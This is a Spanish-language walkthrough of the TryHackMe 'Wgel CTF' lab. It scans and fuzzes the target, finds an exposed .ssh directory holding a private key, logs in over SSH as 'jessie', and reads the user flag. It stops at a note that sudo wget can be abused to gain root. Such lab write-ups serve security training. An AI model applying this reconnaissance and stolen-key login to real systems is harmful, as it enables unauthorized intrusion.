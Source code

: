 ## TryHackMe  <> Wgel CTF
![image](https://github.com/Esevka/CTF/assets/139042999/5e26ad71-c251-438b-ba43-7eed13496eaf)

Enunciado Informacion : Obtener user.txt y root.txt

---
---

## Escaneo de puertos

Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido, por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# ping -c1 10.10.111.201
    PING 10.10.111.201 (10.10.111.201) 56(84) bytes of data.
    64 bytes from 10.10.111.201: icmp_seq=1 ttl=63 time=51.6 ms
    
    --- 10.10.111.201 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 51.629/51.629/51.629/0.000 ms

Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.111.201 -oN open_ports
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:47 CEST
    Initiating SYN Stealth Scan at 09:47
     [...]
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# nmap -p 22,80 -sCV 10.10.111.201 -vvv -oN info_ports                        
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:50 CEST
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    [...]
    
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 94961b66801b7648682d14b59a01aaaa (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
    |   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
    |   256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
    
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


## Analisis de vulnerabilidaddes en los servicios y explotacion de los mismos.

Segun el launchpad del servicio OpenSSH 7.2p2 que esta corriento en el puerto 22 y el ttl obtenido anteriormente pordriamos decir que estamos delante de una maquina Linux.

![image](https://github.com/Esevka/CTF/assets/139042999/a445ff83-cfc4-46a8-bf4e-c9a636548566)

--Puerto 80

Cargamos la web y encontramos la pagina por defecto de Apache2 nada interesante, revisamos como siempro el codigo de la web por si acaso y encontramos lo siguiente.

![image](https://github.com/Esevka/CTF/assets/139042999/df66790e-53e7-4ecc-b807-bb7a84538ac2)

---
POSIBLE USUARIO ---> jessie
---

No vemos nada mas por lo que vamos a fuzzear la web en busca de directorios.

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/Wgel_CTF]
    └─# gobuster dir -u http://10.10.111.201 -w /usr/share/wordlists/dirb/common.txt -o fuzz
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    [...]
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /index.html           (Status: 200) [Size: 11374]
    /server-status        (Status: 403) [Size: 278]
    /sitemap              (Status: 301) [Size: 316] [--> http://10.10.111.201/sitemap/]
    
Revisamos la url encontrada pero no encontramos nada interesante que nos pueda ayudar por lo que fuzzeamos el directorio anterior en busqueda de subdirectorios

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/Wgel_CTF]
    └─# gobuster dir -u http://10.10.111.201/sitemap -w /usr/share/wordlists/dirb/common.txt -o fuzz1
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    [...]
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /.ssh                 (Status: 301) [Size: 321] [--> http://10.10.111.201/sitemap/.ssh/]
    /css                  (Status: 301) [Size: 320] [--> http://10.10.111.201/sitemap/css/]
    /fonts                (Status: 301) [Size: 322] [--> http://10.10.111.201/sitemap/fonts/]
    /images               (Status: 301) [Size: 323] [--> http://10.10.111.201/sitemap/images/]
    /index.html           (Status: 200) [Size: 21080]
    /js                   (Status: 301) [Size: 319] [--> http://10.10.111.201/sitemap/js/]
    Progress: 4579 / 4615 (99.22%)
    ===============================================================
    2023/08/02 10:10:40 Finished
    ===============================================================

Super real, un directorio /.ssh, posiblemente como en otros casos contenga una clave privada.

![image](https://github.com/Esevka/CTF/assets/139042999/880ee7d4-567b-4ecb-bc29-a3b7d693f241)

![image](https://github.com/Esevka/CTF/assets/139042999/ed1c5a82-9a9d-4862-a422-1f37b8d70f49)


Seguramente esta clave privada sea del usuario jessie encontrado anteriormente, vamos a conectarnor con esta clave por el servicio ssh del puerto 22.

Creamos un fichero llamado id_rsa con el contenido de la llave privada encontrada y le damos permiso solo de lectura.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# echo '-----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zE
    [...]
    -----END RSA PRIVATE KEY-----' > id_rsa
    
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# chmod 400 id_rsa 

Nos conectamos al servicio ssh y obtenemos acceso a la maquina.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# ssh jessie@10.10.111.201 -i id_rsa 
    The authenticity of host '10.10.111.201 (10.10.111.201)' can't be established.
    ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
    This host key is known by the following other names/addresses:
        ~/.ssh/known_hosts:28: [hashed name]
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.111.201' (ED25519) to the list of known hosts.
    Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    8 packages can be updated.
    8 updates are security updates.
    
    jessie@CorpOne:~$ whoami;id
    jessie
    uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


## Post Explotacion Obtencion de flags y Escalada de privilegios jessie to root.

Ya que tenemos acceso a la maquina verificamos sistema y version y efectivamente es lo que suponiamos.
      
    jessie@CorpOne:~$ lsb_release -a
    No LSB modules are available.
    Distributor ID: Ubuntu
    Description:    Ubuntu 16.04.6 LTS
    Release:        16.04
    Codename:       xenial

Buscamos la flag de usuario

    jessie@CorpOne:~$ find / -name '*user*flag*' 2>/dev/null
        /home/jessie/Documents/user_flag.txt

    jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt 
        057c67131c3d5e4...cd3075b198ff6

--Elevamos Privilegios

Listamos los comandos que nos estan permitidos ejecutar como root en la maquina victima.
    
        jessie@CorpOne:~$ sudo -l
        Matching Defaults entries for jessie on CorpOne:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
        
        User jessie may run the following commands on CorpOne:
            (ALL : ALL) ALL
            (root) NOPASSWD: /usr/bin/wget

Encontramos un articulo donde podemos abusar del comando wget para escalar privilegios ---> https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/





